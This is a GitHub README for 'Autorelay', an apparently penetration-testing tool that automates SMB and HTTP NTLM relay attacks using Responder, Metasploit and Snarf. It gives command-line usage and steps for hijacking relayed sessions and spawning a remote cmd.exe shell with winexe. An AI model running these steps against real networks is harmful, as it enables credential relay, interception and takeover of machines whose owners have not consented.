 # Autorelay

Automatically performs the SMB relay attack either locally or on a remote device. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. When using locally, only requires an interface and an nmap XML file or a list of IPs on the target network to determine SMB hosts. When used for SMB relaying on a jumpbox, requires the IP address of the jumpbox.


## Usage

#####Local

* sudo ./autorelay.py -x local-network.xml -i eth0

* sudo ./autorelay.py -l ips.txt -i eth0     ** -l option needs some wee fixing **

#####Remote

* sudo ./autorelay.py -x remote-network.xml -i eth0 -r 95.34.53.243 

* sudo ./autorelay.py -l ips.txt -i eth0 -r 95.34.53.243   ** -l option needs some wee fixing **

---


Point your local browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections


After a connection is expired (or you expire it), click "choose"


Run this command locally if relaying locally or run it on the jumpbox if you're relaying remotely: smbclient -U a%a //127.0.0.1


Alternatively, if you gain admin rights through the SMB connection spawn a shell with: winexe -U a%a //127.0.0.1 -U cmd.exe


